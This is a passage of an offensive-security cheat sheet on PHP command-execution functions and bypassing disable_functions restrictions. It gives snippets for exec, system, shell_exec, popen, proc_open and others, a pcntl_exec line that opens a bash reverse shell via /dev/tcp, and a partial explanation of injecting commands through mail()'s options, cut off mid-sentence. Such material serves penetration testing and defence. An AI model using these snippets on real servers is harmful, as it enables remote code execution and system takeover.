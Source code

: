 # PHP - Useful Functions & disable\_functiosns/open\_basedir bypass

## PHP Command & Code Execution

### PHP Command Execution

**exec** - Returns last line of commands output

```bash
echo exec("uname  -a");
```

**passthru** - Passes commands output directly to the browser

```bash
echo passthru("uname -a");
```

**system** - Passes commands output directly to the browser and returns last line

```bash
echo system("uname -a");
```

**shell\_exec** - Returns commands output

```bash
echo shell_exec("uname -a");
```

\`\` \(backticks\) - Same as shell\_exec\(\)

```bash
echo `uname -a`
```

**popen** - Opens read or write pipe to process of a command

```bash
echo fread(popen("/bin/ls /", "r"), 4096);
```

**proc\_open** - Similar to popen\(\) but greater degree of control

```bash
proc_close(proc_open("uname -a",array(),$something));
```

**pcntl\_exec** - Executes a program \(by default in modern and not so modern PHP you need to load the `pcntl.so` module to use this function\)

```bash
pcntl_exec("/bin/bash", ["-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"]);
```

**mail / mb\_send\_mail** - ****This function is used to send mails, but it can also be abused to inject arbitrary commands inside the `$options` parameter. This is because **php `mail` function** usually call `sendmail` binary inside the system and it allows you to **put extra options**. However, you won't be able to see the output of the executed command, so it's recommended to create shell script that writes the output to a file, execute it using mail, and print the output:
